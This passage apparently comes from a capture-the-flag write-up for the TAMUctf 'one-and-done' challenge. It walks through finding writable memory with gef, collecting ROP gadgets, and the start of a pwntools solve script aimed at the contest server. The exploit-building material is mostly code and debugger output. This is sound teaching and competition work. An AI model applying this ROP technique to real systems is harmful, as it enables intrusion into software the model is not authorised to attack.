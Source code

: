 ```
0xffffffffff600000 0xffffffffff601000 0x00000000000000 --x [vsyscall]
```

We see that the memory from `0x00000000404000-0x00000000406000` fits our needs. examining the memory there, there's a bunch of null bytes around `0x4040a0`, which means it might be unused and writing there won't break anything:
```
gef➤  x/64x 0x00000000404000
0x404000:	0x6b6f6f6c	0x696c2073	0x7920656b	0x6320756f
0x404010:	0x68736172	0x62206465	0x79646475	0x7770000a
0x404020:	0x656d206e	0x736c7020	0x65642f00	0x756e2f76
0x404030:	0x00006c6c	0x00000000	0x7fffffff	0xfffffffc
0x404040:	0xffffffff	0xffffffff	0x00000014	0x00000000
0x404050:	0x00527a01	0x01107801	0x08070c1b	0x00000190
0x404060:	0x00000018	0x0000001c	0xffffe135	0x00000035
0x404070:	0x100e4100	0x0d430286	0x00000006	0x0000001c
0x404080:	0x00000038	0xffffe14e	0x00000079	0x100e4100
0x404090:	0x0d430286	0x0c740206	0x00000807	0x00000000
0x4040a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x4040b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x4040c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x4040d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x4040e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x4040f0:	0x00000000	0x00000000	0x00000000	0x00000000
```

Now that we have somewhere to store our data, we need to find the right gadgets to write there. ROPgadget finds this mov we can use:
```
0x000000000040198d : mov dword ptr [rdi + rdx - 0x27], eax ; mov rax, rdi ; ret
```

Kinda strange, but usable as long as we can set `rdi`, `rdx`, and `eax` to what we need. Here's the gadgets to do that:
```
0x0000000000401793 : pop rdi ; ret
0x0000000000401f31 : pop rdx ; ret
0x000000000040100b : pop rax ; ret
``` 
Note that the lowest 4 bytes of `rax` is `eax`, so this will work for setting `eax`

The only things left that we need are gadgets for syscall, and setting `rsi` for the args to syscalls. Here they are:
```
0x0000000000401713 : pop rsi ; ret
0x0000000000401ab2 : syscall ; ret
```

We have all the things needed, so time to assemble the payload

## Solution
Here's the solve script:
``` py
from pwn import *

elf = ELF('./one-and-done')
target = remote("tamuctf.com", 443, ssl=True, sni="one-and-done")
#target = process(elf.path)

#gdb.attach(target, gdbscript='b *main+120')
#context.binary = elf.path
#context.log_level = 'DEBUG'

pop_rdi_ret = p64(0x0000000000401793)
pop_rdx_ret = p64(0x0000000000401f31)
pop_rax_ret = p64(0x000000000040100b)
```